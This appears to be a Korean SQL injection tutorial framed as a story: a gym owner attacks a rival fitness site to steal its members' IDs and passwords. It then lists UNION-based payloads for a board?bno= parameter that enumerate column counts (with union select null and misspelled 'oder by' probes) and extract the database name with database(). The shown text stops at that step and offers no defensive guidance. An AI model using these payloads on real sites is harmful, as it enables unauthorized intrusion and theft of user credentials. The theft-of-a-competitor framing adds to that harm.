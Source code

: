 피트니스 센터를 운영중인 박튼튼씨는 요즘 회원이 많이 줄었다.

 옆 동네 김건강씨네 피트니스 센터에는 회원이 늘고 있다는 소문이다.

박튼튼씨는 자신의 회원들을 빼낸다고 생각하여 김건강씨네 회원 목록을 알아내기 위해 김건강피트니스 사이트에 SQL 삽입 공격을 감행한다

먼저 게시판에서 아무런 글이나 눌러 보고 url에 쿼리 값이 어떤 기준으로 달리는지 확인 한다.

이후 union 문을 이용하여 게시판 컬럼 개수를 알아 낸다게시판 컬럼 개수를 알아낸 후 이를 이용해 DB이름과 테이블 리스트를 알아 낸다사용자 정보로 추정되는 테이블을 발견했다. 

마찬가지로 사용자 정보 테이블의 컬럼 종류를 알아낸다.

컬럼에서 사용자 ID와 PW를 탈취하는데 성공 한다

<bt />

### 공격 방법

```sql
board?bno=1
```

- 위와 같이 특정 쿼리 값으로 정보를 조회하는 곳에서 사용
- 밑에서 나오는 예시들은 쿼리값에 붙여서 사용한다

<br />

### 1.컬럼 개수 알아내기

```sql
board?bno=1' union select null--
board?bno=1' union select null,null--
board?bno=1' union select null,null,null--
board?bno=1' union select null,null,null,null--
```

- 에러페이지가 나오지 않을 때까지 반복

- 안나오면 null 개수

<br />

```sql
board?bno=1' oder by 1--
board?bno=1' oder by 2--
board?bno=1' oder by 3--
board?bno=1' oder by 4--
```

- 에러페이지가 나올 때까지 반복
  - 나오면 직전 숫자가 컬럼의 개수

<br />

### 2. DB 이름 알아내기

```sql
board?bno=-99' union select 1,2, database(),4 --
```
